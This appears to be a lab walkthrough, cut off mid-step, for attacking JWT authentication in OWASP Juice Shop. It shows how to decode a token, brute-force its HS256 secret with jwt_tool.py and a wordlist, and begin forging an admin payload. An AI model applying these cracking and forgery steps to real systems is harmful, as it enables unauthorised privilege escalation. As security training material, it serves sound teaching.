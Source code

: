 ```Example:

Register or log in using a normal user account.

Example: customer@juice-sh.op / password123

Open DevTools → Application → LocalStorage → Copy the JWT token value.

Decode the JWT at jwt.io or using:

bash
Copy
Edit
echo "TOKEN" | cut -d "." -f1,2 | tr "." "\n" | base64 -d
🔹 2. Analyze the JWT
The payload will likely contain:

json
Copy
Edit
{
  "email": "customer@juice-sh.op",
  "role": "customer"
}
Check the header:

json
Copy
Edit
{
  "alg": "HS256",
  "typ": "JWT"
}
Since the algorithm is HS256, the token is signed using a shared secret. The goal is to brute-force this secret.

🔹 3. Crack the Secret Key
Use jwt_tool.py or a Python script with a wordlist to brute-force the signing secret:

🔸 Using jwt_tool.py
bash
Copy
Edit
python3 jwt_tool.py <TOKEN> -C -d /usr/share/wordlists/rockyou.txt
-C: Crack mode

-d: Dictionary/wordlist path

If successful:

bash
Copy
Edit
[*] Secret found: 'admin'
🔹 4. Modify and Forge New Token
Generate a new token with elevated privileges:

🔸 Edit Payload
json
Copy
Edit
{
  "email": "admin@juice-sh.op",
  "role": "admin"
 ```